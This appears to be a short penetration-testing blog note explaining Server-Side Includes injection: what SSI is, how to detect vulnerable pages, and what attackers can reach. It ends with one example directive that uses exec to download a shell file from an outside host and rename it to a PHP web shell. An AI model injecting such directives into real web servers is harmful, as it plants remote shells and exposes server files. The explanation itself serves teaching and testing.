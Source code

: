 ```yaml
---
title: SSI
date : 12,sep 2022
categories: [penetration testing, server attack]
tags: [hacking, server, shell]
---
```

# what is SSI ??
SSIs are directives present on Web applications used to feed an HTML page with dynamic contents. They are similar to CGIs, except that SSIs are used to execute some actions before the current page is loaded or while the page is being visualized. In order to do so, the web server analyzes SSI before supplying the page to the user.

The Server-Side Includes attack allows the exploitation of a web application by injecting scripts in HTML pages or executing arbitrary codes remotely. It can be exploited through manipulation of SSI in use in the application or force its use through user input fields.

It is possible to check if the application is properly validating input fields data by inserting characters that are used in SSI directives, like:

< ! # = / . " - > and [a-zA-Z0-9] 

Another way to discover if the application is vulnerable is to verify the presence of pages with extension .stm, .shtm and .shtml. However, the lack of these type of pages does not mean that the application is protected against SSI attacks.

In any case, the attack will be successful only if the web server permits SSI execution without proper validation. This can lead to access and manipulation of file system and process under the permission of the web server process owner.

The attacker can access sensitive information, such as password files, and execute shell commands. The SSI directives are injected in input fields and they are sent to the web server. The web server parses and executes the directives before supplying the page. Then, the attack result will be viewable the next time that the page is loaded for the user’s browser.

# example 

## Example 1

The commands used to inject SSI vary according to the server operational system in use. The following commands represent the syntax that should be used to execute OS commands.

```bash
<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
```